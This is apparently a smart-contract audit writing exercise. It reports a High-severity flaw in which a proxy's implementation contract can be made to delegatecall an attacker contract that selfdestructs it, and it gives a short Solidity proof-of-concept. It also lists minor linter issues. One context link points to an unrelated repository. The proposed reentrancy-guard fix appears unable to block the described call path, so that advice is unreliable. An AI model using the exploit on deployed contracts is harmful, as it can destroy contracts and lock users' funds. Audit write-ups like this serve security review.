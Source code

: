 ## The functions `callContract` and `delegatecallContract` can be manipulated to selfdestruct the implementation contract

**Severity**: High

Context:

1. [`Implementation.sol#L11-L15`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L11-L15)
2. [`Implementation.sol#L17-L21`](https://github.com/brinktrade/brink-core/blob/db0027533b228a6994acdbcb06713b5a3a3ecb38/contracts/Batched/DeployAndCall.sol#L17-L21)

The implementation contract is the address of implementation in proxy contract, we can't change the value of implementation after deployed. The attacker can execute selfdestruct by delegating call in behalf of implementation contract.

1. Creating a contract using this functions anyone can selfdestruct the implementation contract by calling attack()

```solidity
/*
 * Function that call the exploit in implementation contract
 * impl is address of implementation contract
 */
function attack(address impl) external {
  bytes memory data = abi.encodeWithSignature(
    "delegatecallContract(address,bytes)",
    address(this),
    abi.encodeWithSignature("destruct()")
  );
  Implementation(impl).callContract(impl, data);
}

/*
 * Function to be executed in the context of implementation contract
 */
function destruct() external {
  selfdestruct(attacker);
}

```

This vulnerability consists in use the implemntation contract calling himself using the callContract function and then delegatecallContract to malicious contract selfdestructing in context of implementation contract.

![`How it works`](./screenshots/how-it-works.png)

**Recommendation**:
To avoid this vulnerability, you should implement a reentrancy guard for implementation contract.

Add inheritance from ReentrancyGuard:

```
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
contract Implementation is ReentrancyGuard { ... }
```

Add noReentrant for delegatecallContract:

```
function delegatecallContract(address a, bytes calldata _calldata) payable external nonReentrant returns (bytes memory) {
```

That makes it impossible to delegate call in behalf of itself to another contract

## Informational linter issues

**Severity**: Informational

Context:

1. [`Implementation.sol#L11`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L11)
2. [`Implementation.sol#L13`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L13)
3. [`Implementation.sol#L17`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L17)
4. [`Implementation.sol#L19`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L19)
5. [`Proxy.sol#L23`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Proxy.sol#L23)

There are some linter issues related to:

- Provide an error message for require [reason-string]
- Visibility modifier must be first in list of modifiers [visibility-modifier-order]

**Recommendation**:

To fix the visibility-modifier-order issue in these files: [`Implementation.sol#L11`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L11), [`Implementation.sol#L17`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L17), you need to declare first the visibility then the others modifiers. Eg:

```
function callContract(...) external payable returns (bytes memory){...}
```

To fix the reason-string issue in these files: [`Implementation.sol#L13`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L13), [`Implementation.sol#L19`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L19), [`Proxy.sol#L23`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Proxy.sol#L23), you need to add error message (maximum 32 bytes for gas optimization) to require functions. Eg:

```
require(a>b, "error message")
```
